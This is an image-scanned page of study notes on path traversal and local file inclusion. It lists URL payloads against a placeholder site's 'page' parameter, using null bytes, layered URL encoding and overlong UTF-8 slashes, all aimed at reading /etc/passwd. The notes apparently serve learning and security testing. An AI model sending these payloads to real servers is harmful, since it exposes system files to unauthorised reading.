 Daily Notes : Day 70  
Path Traversal - Part 1

Basic LFI:  
Http://&lt;target&gt;.com/index.php?page=../../../etc/passwd

Null byte:  
http://&lt;target&gt;.com/index.php?page=../../../etc/passwd%00

Encoding:

http://&lt;domain&gt;.com/index.php?page=..%252f..%252f..%252fetc%252fpasswd

http://&lt;domain&gt;.com/index.php?page=..%c0%af..%c0%af..%c0%afetc%c0%afpasswd

http://&lt;domain&gt;.com/index.php?page=%25252e%25252e%25252fetc%25252fpasswd%2500

http://&lt;domain &gt;.com/index.php?page=a/./.(ADDMORE ../)/etc/passwd

http://&lt;domain &gt;.com/index.php?page=a/../../../../(ADDMORE ../)../../../../../etc/passwd